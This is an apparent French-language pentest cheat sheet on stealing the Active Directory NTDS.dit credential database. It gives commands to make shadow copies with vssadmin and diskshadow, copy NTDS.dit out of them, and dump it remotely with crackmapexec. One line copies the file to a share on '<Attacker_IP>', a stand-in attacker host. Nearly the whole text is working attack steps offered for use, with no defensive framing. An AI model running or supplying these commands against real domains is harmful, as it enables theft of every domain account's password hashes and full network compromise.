 ```yaml
---
public: true
---
```


## Localement

### Cliché instantané (vssadmin)

#### Créer une Shadow Copy (cliché instantanné) du disque C

La base NTDS.dit est par défaut stockée dans `C:\Windows\NTDS`

```
vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

#### Copier à partir du cliché instantanné

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit \\<Attacker_IP>\share\
```


### Cliché instantanné (diskshadow.exe)

#### Créer une Shadow Copy (cliché instantanné) du disque C

```shell
diskshadow.exe
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

#### Copier à partir du cliché instantanné


```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```


## A distance

```
crackmapexec smb $TARGET_IP -u $AD_USER -p $AD_PASSWORD --ntds
```

